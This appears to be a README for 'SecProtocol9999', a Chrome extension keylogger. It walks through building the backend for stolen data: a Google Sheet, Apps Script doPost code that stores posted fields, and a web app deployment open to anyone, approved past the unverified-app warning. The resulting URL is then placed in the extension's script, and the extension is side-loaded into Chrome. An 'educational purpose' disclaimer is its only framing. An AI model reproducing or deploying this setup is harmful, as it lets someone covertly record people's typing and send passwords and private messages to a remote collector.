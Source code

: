 DISCLAIMER : [NOTICE] - IT SHOULD ONLY BE USED FOR EDUCATIONAL PURPOSE BY SENIOR DEVELOPERS. ANY MISUSE OF "Mushahid Ali's" CODE WILL BE CONSIDERED AS A PUNISHABLE OFFENSE!

Before using this Chrome Extension, first create the following -

#1. Create a Google Spreadsheet at : https://docs.google.com/spreadsheets/u/0/ so that we can make Google Sheets as a database where we can store all the keylogged data!

#2. At the first row, first column[A1]; insert text such as "first".

#3. At the first row, second column[B1]; insert text such as "second".

#4. Now, we need a script(INTERFACE) to connect Google Sheets(dataBase) with our Chrome Extension script. For that we'll be using Google App Script service. Go to "Tools" and then select to Script Editor.

#5. In the code section, paste the following code, save it, run the code : 

/doGet() code
function doGet(e) {
    //Displays the text on the webpage.
    return ContentService.createTextOutput("This is a GET Request!");
}

//doPost() code
function doPost(e) {
    var sheet = SpreadsheetApp.getActiveSheet();
    
    //Parsing the request body
    var body = JSON.parse(e.postData.contents)
    
    //Adding a new row with content from the request body
    sheet.appendRow([body.first,
    body.second
    ])
}

#6. Go to "Deploy" and then click on "New Deployment".

#7. In it, click on the "Service Type" and click on "Web App". Fill the data only for : "Execute as" to : YOURMAIL@MAIL.com AND "Who has access" to : "anyone".

#8. And then deploy it. NOTICE : If it asks for "Review permission", grant it permission even if it is showing "This App ins't verified", click on Advanced and click on the unsafe link below it.

#9. And FINALLY it will provide you with a Web App URL(LINK), copy it and paste it in the two variables known as "url" in the "secprotocol.js" file before using the SecProtocol9999 Chrome:extension services! All The Chrome Extension files should be inside a folder for it to be usable!

IF YOU DO NOT KNOW HOW TO UPLOAD "CHROME EXTENSION", FOLLOW THE STEPS BELOW : 
-> Go to, chrome://extensions and click on the "Load Unpacked" button and select your Chrome Extension Folder known as "secprotocol9999" and that's all!

This Is Mushahid Ali, signing out!
ENJOY!
